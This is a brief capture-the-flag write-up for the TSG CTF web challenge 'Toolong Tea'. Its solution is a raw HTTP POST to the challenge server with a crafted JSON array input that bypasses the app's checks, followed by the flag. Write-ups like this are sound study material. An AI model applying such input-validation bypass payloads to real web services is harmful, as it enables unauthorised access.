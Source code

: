 # Toolong Tea

Solved by: @yappare

## Question:
Recently it's getting colder in Tokyo which TSG is based in. Would you like to have a cup of hot oolong tea? It will warm up your body.

## Solution:
```
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Length: 25
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://34.84.32.212:4932
Referer: http://34.84.32.212:4932/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"num":["65536","1","1"]}
```

**Flag:** `TSGCTF{A_holy_night_with_no_dawn_my_dear...}`
